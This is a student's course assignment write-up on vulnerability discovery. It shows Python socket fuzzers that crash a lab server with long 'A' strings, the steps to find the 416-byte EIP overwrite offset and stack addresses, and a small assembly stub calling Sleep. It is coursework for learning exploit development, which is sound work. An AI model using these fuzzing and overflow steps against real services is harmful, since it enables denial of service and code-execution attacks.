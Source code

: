 ```yaml
---
layout: post
title:  "Vulnerability Discovery"
date:   2016-09-12  
comments:   true  
---
```


# Assignment 1, Vulnerability Discovery

Kaidi He		G31860481

### Part 1 of 2

First, to crash the server I did some modification on the codes provided by Prof.

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 100
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```

It turned out like this:

![](http://ww3.sinaimg.cn/large/801b780agw1f8nrsjsdx4j21kw0zktnz.jpg)

Thus, I knew that it crashed when input size was 500Bytes. Which means the least number of characters needed to cause the program to crash is less than 500 and more then 400. So I make the add-up pace slower to catch the exact number.

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 400
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 1
```

And it turned out like this: 

![](http://ww3.sinaimg.cn/large/801b780agw1f8nrssaohfj21kw0zk7s7.jpg)

In this screenshot, we can see that when input size reach to **408 Bytes**(1.2) the server did crash but the EIP hasn't been entirly overwritten by the input. We need to keep adding the input length to find out the the least number of characters needed to overwrite all of EIP. After several experiments the least number of characters needed to overwrite all of EIP is **416**(1.2). (Becasue there is 4 Bytes EBP before 4 Bytes EIP).

After that, I modified the code again:

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 408
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length + "B" * 8)	# Using "B" to show EIP length
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```

The result was:

![](http://ww2.sinaimg.cn/large/801b780agw1f8nrt16v02j21kw0zk7fw.jpg)

  Thus, we can see that the input begins at `0012F908`(1.3).

  ![](http://ww3.sinaimg.cn/large/801b780agw1f8nru8q7pvj20wi06kdht.jpg)

 And the EIP stack address is `0012FAA4`(1.4)

![](http://ww4.sinaimg.cn/large/801b780agw1f8nruo2nagj20r8026glr.jpg)

To avoid this problem, programmers just need to implement a constriction of the length of user input.

---

### Part 2 of 2

#### 2.1 

**System Version**:

- Windows 7 Professional
- Service Pack 1
- English
- 32-bit Operating System


![](http://ww3.sinaimg.cn/large/801b780agw1f8nrtq5o6jj21dc0p4147.jpg)


#### 2.2

```assembly
mov ebx, 0x75eeba46	;the address of the Sleep function in kernel32.dll
mov eax, 0
mov ax, 4000
push eax
call ebx
```

#### 2.3

listing:

```
     1 00000000 66BB46BAEE75            mov ebx, 0x75eeba46
     2 00000006 66B800000000            mov eax, 0
     3 0000000C B8A00F                  mov ax, 4000
     4 0000000F 6650                    push eax
     5 00000011 66FFD3                  call ebx
```

![](http://ww2.sinaimg.cn/large/801b780agw1f8nrtzpau1j21kw0zkds8.jpg)


### Reference:

> http://netsec.ws/?p=180